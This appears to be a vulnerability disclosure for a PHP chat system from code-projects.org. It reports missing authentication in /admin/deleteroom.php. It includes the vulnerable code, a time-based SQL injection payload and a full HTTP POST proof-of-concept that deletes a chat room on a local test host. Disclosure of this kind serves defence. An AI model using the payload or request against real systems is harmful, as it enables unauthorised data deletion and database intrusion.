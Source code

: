 # Chat System has unauthorized access vulnerability in `/admin/deleteroom.php`





## supplier



https://code-projects.org/online-notice-board-using-php-source-code/



## Vulnerability file



/admin/deleteroom.php



## describe



Chat System allows attackers to perform unauthorized actions through this interface. Due to the lack of session authentication and other security measures, attackers can execute SQL injection and arbitrary room deletion.

- **(Parameter key-value: id=4' or sleep(5)#&del=1)** (SQL injection)
- **(Parameter key-value: id={value}&del=1)** (`value` represents the `id`, allowing unauthorized enumeration and deletion)



## **Code analysis**



```php
<?php
	include('../conn.php');
	
	if (isset($_POST['del'])){
		$id=$_POST['id'];
		
		mysqli_query($conn,"delete from `chatroom` where chatroomid='$id'");
		mysqli_query($conn,"delete from `chat` where chatroomid='$id'");
		mysqli_query($conn,"delete from `chat_member` where chatroomid='$id'");
	}
?>
```

The lack of session and other authentication mechanisms allows any user to perform operations.



## POC

```http
POST /admin/deleteroom.php HTTP/1.1
Host: 127.0.0.1:7777
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 24
Origin: http://127.0.0.1:7777
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://127.0.0.1:7777/admin/
Cookie: PHPSESSID=qua31ea51oa01tdbtr5cqapm4v
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0

id=1&del=1
```



## Demonstration Example



**The current database table: `chatroom`.**



![part-1](../assest/chatsystem/unauthorized/unauthorized-part1.png)



**Operation performed by an unauthenticated user.**



![part-2](../assest/chatsystem/unauthorized/unauthorized-part2.png)





**Execution Result: `chatroomid = 2` has been deleted.**



![part-3](../assest/chatsystem/unauthorized/unauthorized-part3.png)
